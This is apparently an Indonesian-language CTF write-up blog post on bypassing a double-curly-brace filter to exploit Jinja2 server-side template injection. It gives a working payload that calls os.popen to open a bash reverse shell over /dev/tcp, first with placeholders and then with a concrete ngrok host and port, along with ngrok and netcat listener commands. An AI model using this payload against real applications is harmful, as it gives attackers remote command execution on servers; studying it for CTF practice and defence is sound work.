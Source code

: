```yaml
---
layout: page
title: "Server-Side Template Injection (SSTI) - Jinja2"
categories: ctf
---
```


<div class="post-categories">
  {% if post %}
    {% assign categories = post.categories %}
  {% else %}
    {% assign categories = page.categories %}
  {% endif %}
  <strong>Categories: </strong>
  {% for category in categories %}
  <a href="{{site.baseurl}}/categories/#{{category|slugize}}">{{category}}</a>
  {% unless forloop.last %}&nbsp;{% endunless %}
  {% endfor %}
</div>

Pada blog ini, saya akan membagikan cara untuk bypass filtered input SSTI Jinja2 dengan requirements:

- Memungkinkan SSTI
- Double curly brackets atau dobel kurung kurawal \{\{ di filter

Jadi yang pertama kali saya lakukan, masuk ke halaman web yang memungkinkan untuk kita melakukan SSTI
![](/assets/img/Screenshot 2022-10-24 233937.png)

Selanjutnya gunakan payload berikut ini

```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/{ip_public}/port <&1"')) %}{% endif %}
{% endraw %}
```

Jadi, pada payload diatas, kita akan mengirimkan request yang bertujuan untuk mengirim shell target ke shell kita melalui ip public pada `/dev/tcp/{ip_public}/{port}`

Nah, jadi kalian bisa mengganti `{ip_public} ` dan `{port}` dengan service forward port gratis seperti netlify, ngrok, dan lainya.<br />

Jika kalian menggunakan ngrok, bisa gunakan perintah ini `ngrok tcp {listening_port}`
![](/assets/img/Screenshot 2022-10-25 001613.png)
<br /> `{listening_port}` akan kita gunakan untuk mendapatkan shell yang dikirim melalui domain dan port yang didapatkan dari ngrok, jangan lupa untuk gunakan perintah `nc -tlvp {listening_port}` untuk mendapatkan shell target. <br />

Berdasarkan gambar diatas, maka payload yang harus dimasukkan adalah

```
{% raw %}
{% if(config.class.init.globals['os'].popen('bash -c "exec bash -i &>/dev/tcp/0.tcp.ap.ngrok.io/18104 <&1"')) %}{% endif %}
{% endraw %}
```

![](/assets/img/Screenshot 2022-10-25 004110.png)

Dan didapatlah flagnya `BEECTF{3s_3s_t1_a1_Gg3Z_h3h3_g12l2bi30l}`
